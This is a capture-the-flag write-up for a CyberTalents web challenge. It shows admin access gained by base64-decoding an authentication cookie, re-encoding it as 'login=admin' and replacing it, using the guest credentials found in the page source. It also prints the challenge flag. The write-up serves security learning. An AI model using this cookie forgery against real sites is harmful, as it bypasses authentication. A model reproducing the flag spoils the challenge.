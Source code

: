 # CyberTalents
## Web Security

### Challenge Name:
 [*who am i?*](https://cybertalents.com/challenges/web/who-am-i)
 
### Challenge Description
Do not Start a fight you can not stop it


Link: [http://34.76.107.218/whoami/](http://34.76.107.218/whoami/)

### Solution
* Open inspect from (ctrl + shift + c) then scroll down ther is an account details
```
			Guest Account:
			-=-=-=-=-=-=-=-
			Username:Guest
		    Password:Guest  
```
* Use above data to Login 
* Using Burbsuit or cookie-editor to see cookies
```
Authentication=bG9naW49R3Vlc3Q%3D
```
* From URL encode "%3d" implies "=" so current cookies equal "bG9naW49R3Vlc3Q=" (Base64 decode)
* Decode base64 using linux command
```bash
echo 'bG9naW49R3Vlc3Q=' | base64 -d
login=Guest
```
* Now we want to change 'Guest' to 'admin' then encode it
```bash
echo 'login=admin' | base64
bG9naW49YWRtaW4K
```
* If you try it using Guest instead of admin you will see that it ends in 'k' but in cookies he remove it then appeand '=' (in URL encode '%3d')
* Change website cookies to what we have generate (bG9naW49YWRtaW4%3D)
* Reload the page
* You got the password!!


### The Flag
 > FLag{B@D_4uTh1Nt1C4Ti0n}  
